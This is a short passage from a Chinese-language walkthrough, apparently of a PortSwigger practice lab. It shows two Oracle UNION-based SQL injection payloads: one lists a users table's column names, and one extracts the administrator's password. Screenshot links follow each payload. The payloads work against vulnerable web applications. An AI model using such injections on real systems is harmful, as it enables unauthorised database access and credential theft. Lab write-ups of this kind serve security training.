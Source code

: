 爆字段：**category=Lifestyle' union select '1',column_name from user_tab_columns where table_name='USERS_OBKNHE'--**

![image-20250711190002782](portswigger.assets/image-20250711190002782.png)

获取字段：**category=Lifestyle' union select '1',PASSWORD_TZLNYE from USERS_OBKNHE where USERNAME_YCBRET='administrator'--**

![image-20250711190154295](portswigger.assets/image-20250711190154295.png)
